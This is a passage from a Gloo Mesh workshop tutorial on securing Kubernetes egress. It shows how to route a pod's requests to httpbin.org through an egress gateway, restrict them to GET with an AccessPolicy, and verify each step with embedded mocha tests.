kubectl --context ${CLUSTER1} -n bookinfo-frontends exec $(kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}') -- python -c "import requests; r = requests.get('http://httpbin.org/get'); print(r.text)"
```

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');

describe("Communication not allowed", () => {
  it("Productpage can NOT send requests to httpbin.org", () => {
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n bookinfo-frontends exec deploy/productpage-v1 -- python -c \"import requests; r = requests.get('http://httpbin.org/get', timeout=5); print(r.text)\"" }).replaceAll("'", "");
    expect(command).not.to.contain("User-Agent");
  });
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/secure-egress/tests/productpage-to-httpbin-not-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

It's not working.

You can now create an `ExternalService` to expose `httpbin.org` through the egress gateway:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: httpbin
  namespace: bookinfo-frontends
  labels:
    expose: 'true'
spec:
  hosts:
    - httpbin.org
  ports:
    - clientsideTls: {}
      egressGatewayRoutes:
        portMatch: 80
        virtualGatewayRefs:
          - cluster: cluster1
            name: egress-gw
            namespace: istio-gateways
      name: https
      number: 443
      protocol: HTTPS
EOF
```

Try to access the `httpbin.org` site from the `productpage` Pod:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends exec $(kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}') -- python -c "import requests; r = requests.get('http://httpbin.org/get'); print(r.text)"
```

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');

describe("Communication status", () => {
  it("Productpage can send requests to httpbin.org", () => {
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n bookinfo-frontends exec deploy/productpage-v1 -- python -c \"import requests; r = requests.get('http://httpbin.org/get'); print(r.status_code)\"" }).replaceAll("'", "");
    expect(command).to.contain("200");
  });
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/secure-egress/tests/productpage-to-httpbin-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

Now, it works!

And you can run the following command to check that the request went through the egress gateway:

```shell
kubectl --context ${CLUSTER1} -n istio-gateways logs -l istio=egressgateway --tail 1
```

Here is the expected output:

```,nocopy
[2023-05-11T20:10:30.274Z] "GET /get HTTP/1.1" 200 - via_upstream - "-" 0 3428 793 773 "10.102.1.127" "python-requests/2.28.1" "e6fb42b7-2519-4a59-beb8-0841380d445e" "httpbin.org" "34.193.132.77:443" outbound|443||httpbin.org 10.102.2.119:39178 10.102.2.119:8443 10.102.1.127:48388 httpbin.org -
```

The gateway team can also restrict which HTTP method can be used by the Pods when sending requests to `httpbin.org`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: AccessPolicy
metadata:
  name: allow-get-httpbin
  namespace: istio-gateways
spec:
  applyToDestinations:
  - kind: EXTERNAL_SERVICE
    selector: 
      name: httpbin
      namespace: bookinfo-frontends
      cluster: cluster1
  config:
    authz:
      allowedClients:
      - serviceAccountSelector:
          name: bookinfo-productpage
      allowedMethods:
      - GET
    enforcementLayers:
      mesh: true
      cni: false
EOF
```

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');

describe("Communication status", () => {
  it("Productpage can send GET requests to httpbin.org", () => {
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n bookinfo-frontends exec deploy/productpage-v1 -- python -c \"import requests; r = requests.get('http://httpbin.org/get'); print(r.status_code)\"" }).replaceAll("'", "");
    expect(command).to.contain("200");
  });

  it("Productpage can't send POST requests to httpbin.org", () => {
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n bookinfo-frontends exec deploy/productpage-v1 -- python -c \"import requests; r = requests.post('http://httpbin.org/post'); print(r.status_code)\"" }).replaceAll("'", "");
    expect(command).to.contain("403");
  });
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/secure-egress/tests/productpage-to-httpbin-only-get-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

You can still send GET requests to the `httpbin.org` site from the `productpage` Pod:

```shell
kubectl --context ${CLUSTER1} -n bookinfo-frontends exec $(kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}') -- python -c "import requests; r = requests.get('http://httpbin.org/get'); print(r.text)"
```

But you can't send POST requests to the `httpbin.org` site from the `productpage` Pod:

```shell
kubectl --context ${CLUSTER1} -n bookinfo-frontends exec $(kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}') -- python -c "import requests; r = requests.post('http://httpbin.org/post'); print(r.text)"
```

You'll get the following response:

```,nocopy
RBAC: access denied
```

Let's delete the Gloo Mesh objects we've created:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete networkpolicy restrict-egress
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete externalservice httpbin
kubectl --context ${CLUSTER1} -n istio-gateways delete accesspolicy allow-get-httpbin
```


